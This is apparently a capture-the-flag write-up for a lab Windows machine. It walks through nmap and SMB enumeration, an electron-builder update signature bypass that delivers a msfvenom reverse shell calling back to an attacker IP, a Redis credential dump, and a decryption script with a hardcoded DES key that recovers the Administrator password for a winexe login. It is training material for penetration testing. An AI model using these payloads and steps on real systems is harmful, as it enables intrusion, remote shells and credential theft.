





# <p style="color:RED">Information Gathering </p>

---

## <p style="color:Green">Nmap scan </p> 
```
sudo nmap -sC -sV 10.10.10.237 -v
```

```
80/tcp  open  http         Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
135/tcp open  msrpc        Microsoft Windows RPC
443/tcp open  ssl/http     Apache httpd 2.4.46 ((Win64) OpenSSL/1.1.1j PHP/7.3.27)
| http-methods: 
|   Supported Methods: GET POST OPTIONS HEAD TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.46 (Win64) OpenSSL/1.1.1j PHP/7.3.27
|_http-title: Heed Solutions
| ssl-cert: Subject: commonName=localhost
| Issuer: commonName=localhost
| Public Key type: rsa
| Public Key bits: 1024
| Signature Algorithm: sha1WithRSAEncryption
| Not valid before: 2009-11-10T23:48:47
| Not valid after:  2019-11-08T23:48:47
| MD5:   a0a4 4cc9 9e84 b26f 9e63 9f9e d229 dee0
|_SHA-1: b023 8c54 7a90 5bfa 119c 4e8b acca eacf 3649 1ff6
|_ssl-date: TLS randomness does not represent time
| tls-alpn: 
|_  http/1.1
445/tcp open  microsoft-ds Windows 10 Pro 19042 microsoft-ds (workgroup: WORKGROUP)

```

## <p style="color:Green">Web Enumeration </p> 


It's a static page with an executeable to download, but nothing interesting! Let's keep enumerating

## <p style="color:Green">SMB Enumeration </p> 



An interesting share `Software_Updates` let's take a look at it



Let's try download everything

```
prompt off
recurse on
mget *
```


We only have a pdf file!

---

# <p style="color:RED"> Foothold </p>

---

Let's take a look at the pdf file




The Heedv1 app is build with `electron-builder` and also we can drop updates in the client folders in the smb and it get executed.
Searching in  google for an electron builder update rce, we can find an interesting

> https://blog.doyensec.com/2020/02/24/electron-updater-update-signature-bypass.html

Let's first create our shell with the name "s'hell.exe" to bypass the signature

```
msfvenom -p windows/shell_reverse_tcp  lhost=10.10.14.5 lport=9001 -f exe -o "s'hell.exe"
```

And also generate the encdoded shasum of our malicious file

```
shasum -a 512 s\'hell.exe | cut -d " " -f1 | xxd -r -p | base64
``` 

Now we're ready to create our `latest.yml`

```yml
version: 1.2.3

path: http:/IP:PORT/s'hell.exe
sha512: CZsOB2[-SNIP-]2tW5UhzwqzLVkkpzAbuIw==
```

Let's setup a listener and upload them to the clients folder in the smb! And wait until we get a shell back


We're on the box now! And we can get the user flag !:D


---

# <p style="color:RED"> PrivEsc </p>

---

Before running any enumerating tool, i always check the Program file, the documents and Downloads folders to check if we have any custom Software  (a aka free win) installed in the system!



We  can copy the whole folder and try to retrieve the encrypted like the machine `sharp` but let's keep enumerating!
> https://www.exploit-db.com/exploits/49409


We can see that Redis is installed, we can grab the redis password from the config file


```
requirepass kidvscat_yes_kidvscat
```
Now we can enumerate the redis service!

We will use the redis-tools package

```
sudo apt-get install redis-tools
```

> A very good ressource, i'll use everything from here https://book.hacktricks.xyz/pentesting/6379-pentesting-redis

Let's dump the database
```redis
info
```


Let's list the keys from the db0


Let's check their content


The key `pk:urn:user:e8e29158-d70d-44b1-a1ba-4949d52790a0` seems to give us credentials 

```
Administrator:Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi
```
Seems like it's an encrypted password! And we already know that we have an exploit to decrypt it ! Lets give it a try


Let's just take a snippet from the exploit-db exploit 
```python
#!/usr/bin/env python3
import base64
from des import *
def decode(hash):
	hash = base64.b64decode(hash.encode('utf-8'))
	key = DesKey(b"7ly6UznJ")
	return key.decrypt(hash,initial=b"XuVUm5fR",padding=True).decode('utf-8')

print('[+] Decrypted Password: '+decode('Odh7N3L9aVQ8/srdZgG2hIR0SSJoJKGi'))
```


```
Administrator:kidvscat_admin_@123
```
Now let's login as administrator to the machine

```
winexe -U 'Administrator%kidvscat_admin_@123' //10.10.10.237 cmd.exe
```


And we rooted the machine!


## Thanks for reading hope you enjoyed it!


